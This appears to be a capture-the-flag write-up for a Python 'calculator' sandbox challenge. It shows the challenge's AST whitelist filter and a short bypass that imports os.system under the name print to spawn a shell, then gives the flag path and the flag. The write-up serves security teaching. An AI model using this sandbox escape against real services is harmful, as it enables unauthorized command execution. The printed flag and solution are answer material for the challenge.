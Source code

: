 # Finance Calculat0r 2021

## Description

> We launched a scriptable cloud calculat0r for all your financing needs!
>
> `nc challs.rumble.host 42323`
>
> Of course its Open Source

{% file src="../../.gitbook/assets/finance_calculat0r_2021.tar.gz" %}

## Solution

The program allows you to write a Python program to be executed. It checks the AST of the program and only the `print` function is allowed to be called.

```python
WHITELIST_NODES = [
    ast.Expression,
    ast.Expr,
    ast.Num,
    ast.Name,
    ast.Constant,
    ast.Load,
    ast.BinOp,
    ast.Add,
    ast.Sub,
    ast.Module,
    ast.Mult,
    ast.Div,
    ast.Assign,
    ast.Store
]

WHITELIST_FUNCTIONS = [
    "print"
]

...

def check_code_security(code):
    # Decode for parser
    s = code.decode(errors="ignore")
    tree = ast.parse(s, mode='exec')
    for node in ast.walk(tree):
        if type(node) not in WHITELIST_NODES:
            if type(node) == ast.Call and node.func.id not in WHITELIST_FUNCTIONS:
                raise ValueError("Forbidden code used in type '{}'. NOT allowed!".format(type(node)))
```

But note that module imports are allowed. We can simply import a function as `print` to bypass this filter.

```python
from os import system as print
print('/bin/sh')
```

After getting a shell, we can find the flag in `/opt/flag.txt`.

`CSR{OhManSandiNeinNeinDasMachtManNicht}`
